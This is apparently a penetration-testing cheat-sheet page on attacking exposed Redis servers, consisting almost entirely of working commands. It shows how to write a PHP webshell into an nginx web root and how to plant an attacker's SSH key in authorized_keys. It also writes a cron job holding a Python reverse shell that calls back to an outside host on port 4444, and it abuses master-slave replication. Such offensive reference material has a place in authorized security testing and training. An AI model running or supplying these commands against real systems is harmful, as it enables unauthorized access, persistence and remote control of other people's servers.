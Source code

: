 ```yaml
---
title: "Redis"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## Webshell

You must know the path of the Web site folder:

```
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

## SSH

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set givshellplox
4. Save the public key to the authorized_keys file on redis server:

```
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /home/user/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```


## Reverse shell Crontab

```
root@machine:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last example is for Ubuntu, for Centos, the above command should be: redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

## Master-Slave Module

Make our redis server master in the cluster. Make vuln server our slave.

```
redis-cli -h 10.10.10.10 -p 6379
slaveof 10.85.0.51 6379
```

```
redis-cli -h 10.10.10.11 -p 6379
set mykey hello
set mykey2 helloworld
```